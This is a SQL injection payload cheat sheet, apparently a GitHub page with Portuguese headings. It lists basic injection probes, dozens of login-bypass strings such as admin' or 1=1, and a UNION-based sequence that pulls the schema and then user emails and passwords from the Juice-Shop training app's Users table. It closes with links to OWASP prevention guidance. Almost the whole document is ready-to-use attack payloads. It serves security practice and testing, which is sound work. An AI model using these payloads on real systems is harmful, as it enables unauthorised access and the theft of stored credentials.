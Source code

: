 # SQL Inject Basic Payloads
```
'
' --
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

Comentarios:

#
/*
-- -
;%00
`
```
# SQL Inject Bypass de Auth
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
admin' or 1=1
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
# SQL Inject Extract Schema Database Juice-Shop
```
')

'))%20--%2

'))%20order%20by%209%20--%20

'))%20union%20all%20select%201,2,3,4,5,6,7,8,9%20--%20

'))%20union%20all%20select%201,2,3,sql,5,6,7,8,9%20from%20sqlite_master%20--%20

'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20
```
## Links

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://www.w3schools.com/sql/sql_injection.asp

https://github.com/gui1535/sql-injection-list
